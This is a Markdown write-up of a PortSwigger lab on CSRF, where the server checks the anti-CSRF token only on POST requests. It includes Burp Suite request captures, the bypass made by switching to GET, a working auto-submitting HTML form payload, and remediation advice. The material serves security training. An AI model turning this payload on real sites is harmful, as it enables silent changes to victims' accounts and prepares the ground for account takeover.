






## Challenge Overview

* **Challenge Name**: CSRF where token validation depends on request method
* **Category**: Cross-Site Request Forgery (CSRF) / Client-Side Security
* **Level**: Apprentice
* **Target Endpoint**: `POST /my-account/change-email`
* **Objective**: Exploit a flawed anti-CSRF token implementation that only validates tokens on `POST` requests by converting the request to `GET` to change the victim's email address via the exploit server.

---

## 1. Core Fundamentals

### 1.1. Anti-CSRF Token Architecture (Synchronizer Token Pattern)

In modern web applications, the primary cryptographic defense against Cross-Site Request Forgery is the **Anti-CSRF Token (Synchronizer Token Pattern)**:
1. When a user authenticates, the server generates a cryptographically strong, pseudorandom token bound to the user's active session.
2. The server embeds this token into sensitive state-changing HTML forms (or passes it through custom HTTP headers).
3. Upon receiving a mutation request, the server compares the submitted token against the session token.
4. Because the browser's **Same-Origin Policy (SOP)** prevents external, untrusted origins from reading the victim's DOM on the target domain, an adversary cannot steal or guess this token to forge a legitimate request.

### 1.2. The Ambient Authority Model & Automatic Cookie Transmission

Under the browser's **Ambient Authority** credential-handling model, whenever a web browser initiates an HTTP request to a target origin, it automatically attaches all stored cookies matching that domain. 

Without anti-CSRF tokens or strict `SameSite` cookie enforcement, the target web server cannot distinguish whether the request was intentionally dispatched by the user or triggered by malicious script running on an external origin.

### 1.3. The Architectural Flaw: Conditional Middleware Validation

The vulnerability in this scenario does not stem from weak cryptography or token leakage; rather, it originates from **defective enforcement logic in the authentication/authorization filter pipeline**.

Many web developers operate under the flawed assumption that **CSRF is exclusively a POST-based vulnerability**:
> *"Since web forms that mutate database records submit data via POST, we only need to inspect CSRF tokens when `request.method === 'POST'`."*

Consequently, security middleware is written conditionally:

```pseudo
function csrfProtectionMiddleware(request, response, next):
    if request.method == "POST":
        if not validateToken(request.body.csrf, request.session.csrfToken):
            return response.sendError(400, "Missing or invalid CSRF token")
    
    // For GET, HEAD, OPTIONS -> Skip validation and proceed!
    next()
```

### 1.4. HTTP Semantics & RFC Violation

According to **RFC 7231 / RFC 9110 (HTTP Semantics)**:
* `GET` requests are formally designated as **Safe** and **Idempotent**.
* Safe methods are intended solely for **information retrieval** and must **never alter server state**.
* Allowing an account modification action (such as an email update) to execute via an HTTP `GET` request violates standard protocol specifications and exposes the application to method-swapping bypasses.

### 1.5. The Three Classical Preconditions for CSRF

```text
+-----------------------------------------------------------------------------------------+
|                                CSRF Pre-Conditions Matrix                               |
+-----------------------------------------------------------------------------------------+
| Condition 1: Relevant Action            --> YES: POST /my-account/change-email          |
| Condition 2: Cookie-based Session       --> YES: Authenticated via "Cookie: session=..."|
| Condition 3: No Unpredictable Data      --> Bypassed: Switching method to GET removes   |
|                                             the CSRF token requirement completely       |
+-----------------------------------------------------------------------------------------+
| VERDICT: SEVERELY VULNERABLE TO METHOD-SWAPPING CSRF ATTACKS                            |
+-----------------------------------------------------------------------------------------+
```

---

## 2. Attack Architecture / Threat Model

### 2.1. Trust Boundaries & Controller Ambiguity

The vulnerability materializes when the underlying controller or routing engine is **loosely typed** with respect to HTTP verbs and parameter sources:
* **Universal Parameter Binding:** Frameworks such as PHP (via `$_REQUEST`), legacy Spring controllers using generic `@RequestMapping`, or Express.js routes extract parameters indistinctly from either the URL query string (`req.query`) or the request body (`req.body`).
* **Multi-Verb Handling:** If a state-changing route listens on multiple HTTP verbs (or fails to explicitly restrict incoming traffic to `POST`), an attacker can simply pivot the HTTP method from `POST` to `GET`. The security middleware skips token verification, while the business logic controller ingests the parameters from the query string and commits the database mutation.

### 2.2. Attack Flow Diagram

```text
[ Attacker Exploit Server ]
       │
       │  1. Hosts malicious HTML exploit with GET method:
       │     <form method="GET" action="https://target.com/my-account/change-email">
       │         <input type="hidden" name="email" value="hacking@gmail.com">
       │     </form>
       │     <script>document.forms[0].submit();</script>
       │
       │  2. Delivers phishing link / exploit URL to Victim
       ▼
[ Authenticated Victim Browser ]
       │  (Victim maintains an active session cookie on target.com)
       │
       │  3. Loads attacker exploit page (/exploit)
       │  4. DOM executes document.forms[0].submit() automatically
       │
       │  5. Issues cross-site GET request with ambient session cookie:
       │     GET /my-account/change-email?email=hacking@gmail.com HTTP/2
       │     Host: target.com
       │     Cookie: session=VcwC6lreD6G5...  <── Browser automatically attaches!
       ▼
[ Target Web Application ]
       │
       │  6. Security Filter inspects request.method == "GET"
       │     ──► SKIPS CSRF TOKEN VALIDATION!
       │  7. Backend Controller extracts "email" parameter from URL query string
       │  8. Updates victim's account email to hacking@gmail.com
       ▼
[ State Mutated: Account Takeover Prerequisite Achieved ]
```

### 2.3. Root Cause Analysis

The root cause comprises two distinct architectural defects:
1. **Conditional Security Enforcement:** Anti-CSRF verification logic is coupled strictly to the HTTP method (`POST`) rather than the state-changing nature of the resource.
2. **Permissive Route Handling:** The backend endpoint accepts mutating parameters via `GET` requests, failing to enforce RESTful method constraints (`HTTP 405 Method Not Allowed`).

---

## 3. Vulnerability Exploitation

### Phase 1: Baseline Request Interception & Traffic Inspection

We log into the test account (`wiener:peter`) and trigger the email modification functionality. The traffic is captured via Burp Suite Proxy and analyzed in Burp Suite Repeater:



#### HTTP Request Analysis

```http
POST /my-account/change-email HTTP/2
Host: 0a1500f604f48afd809a035e000f002c.web-security-academy.net
Cookie: session=VcwC6lreD6G5gYAcPTts6EQMMQyMFeCf
Content-Length: 60
Content-Type: application/x-www-form-urlencoded

email=hihi%40gmail.com&csrf=IgosKJKtp54WnAjfFOFlwtkMD7bUROzh
```

#### Observations:
* The application issues a standard `POST` request containing two parameters: `email` and `csrf`.
* The server responds with `HTTP/2 302 Found` (redirecting to `/my-account?id=wiener`), verifying that the email was successfully changed to `hihi@gmail.com`.
* At first glance, the application appears properly defended because a Synchronizer Token is present.

---

### Phase 2: Proving Token Validation on `POST` Requests

To determine whether the server actively validates the token or merely treats it as an unvalidated parameter, we send the request to **Burp Repeater**, remove the `&csrf=...` parameter, and re-send the request:



```http
POST /my-account/change-email HTTP/2
Host: 0a1500f604f48afd809a035e000f002c.web-security-academy.net
Cookie: session=VcwC6lreD6G5gYAcPTts6EQMMQyMFeCf
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

email=hihi%40gmail.com
```

#### Server Response:
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 26

"Missing parameter 'csrf'"
```

#### Security Takeaway:
The server actively rejects the request with `400 Bad Request` and an explicit error payload: `"Missing parameter 'csrf'"`. This confirms that **when the method is `POST`, the CSRF validation filter is functional and mandatory**.

---

### Phase 3: Method Swapping & Token Bypass in Repeater

Next, we test for **HTTP Method Confusion / Method-Dependent Validation**:
1. In Burp Repeater, right-click the request and select **Change request method** (or manually convert the HTTP verb from `POST` to `GET`).
2. Move the `email` parameter to the URL query string and **omit the `csrf` parameter entirely**.



```http
GET /my-account/change-email?email=haha%40gmail.com HTTP/2
Host: 0a1500f604f48afd809a035e000f002c.web-security-academy.net
Cookie: session=VcwC6lreD6G5gYAcPTts6EQMMQyMFeCf
```

#### Server Response:
```http
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

#### Critical Finding:
The server returns `HTTP/2 302 Found` instead of an error. The CSRF validation filter was bypassed entirely simply by converting the HTTP verb to `GET`.

---

### Phase 4: UI Verification of State Modification

To verify that the database update was committed on the server, we refresh the victim's account dashboard in the browser:



As confirmed in Figure 4:
* **Username:** `wiener`
* **Email:** `haha@gmail.com`

The database mutation succeeded without requiring an anti-CSRF token.

---

### Phase 5: Weaponizing the Exploit on the Exploit Server

We now craft the weaponized payload on the PortSwigger **Exploit Server** (`https://exploit-...exploit-server.net/exploit`):



#### Payload Configuration:
* **File:** `/exploit`
* **Head:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: text/html; charset=utf-8
  ```
* **Body:**
  ```html
  <form method="GET" action="https://0a1500f604f48afd809a035e000f002c.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="hacking@gmail.com">
  </form>
  <script>
      document.forms[0].submit();
  </script>
  ```

#### Detailed Breakdown of Exploit Mechanics:
1. **`method="GET"`:** Instructs the browser to serialize form inputs into URL query parameters upon submission, producing a request to:
   ```text
   https://0a1500f604f48afd809a035e000f002c.web-security-academy.net/my-account/change-email?email=hacking%40gmail.com
   ```
2. **`<input type="hidden">`:** Conceals input fields from the victim's display, ensuring the exploit executes stealthily.
3. **`document.forms[0].submit()`:** Automatically submits the form immediately upon DOM parsing, providing **Zero-Click execution**.

> [!TIP]
> **Zero-Scripting Alternative:**
> Because the endpoint permits state mutations via `GET`, an attacker does not even require JavaScript! A simple HTML image tag achieves the exact same result:
> ```html
> 
> ```

---

### Phase 6: Delivering Exploit to Victim & Verification

1. Click **Store** to persist the payload on the Exploit Server.
2. Click **Deliver exploit to victim**.



#### Execution Flow & Lab Resolution:
1. The PortSwigger automated victim crawler visits `/exploit` while logged into an active session as `wiener`.
2. The bot's browser loads the page and evaluates `document.forms[0].submit()`.
3. A cross-site `GET` request is fired towards `/my-account/change-email?email=hacking@gmail.com`.
4. The browser automatically attaches the victim's session cookie (`Cookie: session=...`).
5. The backend CSRF filter sees that the request method is `GET` and skips token validation.
6. The account controller processes the query parameter and updates the victim's email to `hacking@gmail.com`.
7. The lab engine detects the state change on the simulated victim account and marks the challenge as **Solved** (*Figure 6*).

---

## 4. Remediation Strategies

Remediating method-dependent CSRF flaws requires defense-in-depth across routing semantics, middleware validation, and cookie attributes.

```text
+-----------------------------------------------------------------------------------------+
|                              Multi-Layered CSRF Defenses                                |
+-----------------------------------------------------------------------------------------+
| 1. HTTP Semantics        : Strictly enforce POST / PUT / DELETE for state changes       |
| 2. Middleware Validation : Validate tokens uniformly on all mutating endpoints          |
| 3. Parameter Binding     : Separate query parameters from body payloads                 |
| 4. Browser Attributes    : Configure SameSite=Lax / SameSite=Strict cookies             |
| 5. Step-Up Security      : Re-authenticate current credentials on critical actions      |
+-----------------------------------------------------------------------------------------+
```

### 4.1. Strict HTTP Method Enforcement (REST Semantics)

State-changing endpoints must **strictly reject** any HTTP verb other than `POST`, `PUT`, `PATCH`, or `DELETE`:
* **Spring Boot (Java):**
  ```java
  // INSECURE: Accepts any HTTP method
  @RequestMapping("/my-account/change-email") 

  // SECURE: Strictly accepts only POST
  @PostMapping("/my-account/change-email")
  ```
* **Express.js (Node.js):**
  ```javascript
  // INSECURE: router.all(...) or app.use(...)
  // SECURE:
  app.post('/my-account/change-email', csrfProtection, changeEmailHandler);
  ```
* If a client issues an unsupported HTTP method (such as `GET`), the server must reject it immediately:
  ```http
  HTTP/1.1 405 Method Not Allowed
  Allow: POST
  ```

### 4.2. Method-Agnostic Anti-CSRF Token Validation

CSRF protection filters should **never** make trust assumptions based purely on the HTTP method if that endpoint is capable of changing state:
* Ensure security filters inspect tokens on **all mutating actions**, regardless of how the request was packaged.
* If a framework uses global CSRF protection (e.g., Spring Security, Django, Laravel), avoid exempting `GET` routes from validation if those routes perform database writes.

### 4.3. Strict Separation of Query Parameters and Body Payloads

Never use catch-all parameter extraction methods (such as PHP's `$_REQUEST` or generic helper functions that fall back to query strings):
* Read mutation parameters **strictly** from the request body:
  ```php
  // INSECURE: Accepts input from $_GET or $_POST indistinctly
  $email = $_REQUEST['email'];

  // SECURE: Strictly enforce POST method and read from $_POST
  if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
      http_response_code(405);
      exit('Method Not Allowed');
  }
  $email = $_POST['email'];
  ```

### 4.4. Enforcing `SameSite` Cookie Attributes

Configure session cookies with the `SameSite` attribute:
```http
Set-Cookie: session=...; Secure; HttpOnly; SameSite=Lax; Path=/
```
* **Critical Note on GET Vulnerabilities:** Under standard `SameSite=Lax`, cookies **are still transmitted** on top-level navigations via `GET` (e.g., clicking a link). This means that if an application allows state changes via `GET`, an attacker can still execute CSRF via a simple link or redirect.
* Enforcing `POST` alongside `SameSite=Lax` ensures that cross-site form submissions are blocked by the browser.

### 4.5. Mandatory Step-Up Re-Authentication

Require users to confirm their **current password** or submit a **Multi-Factor Authentication (MFA) OTP** whenever updating critical account attributes (email, password, phone number). Because an attacker cannot guess or forge the victim's secret credentials, CSRF attacks become unfeasible.
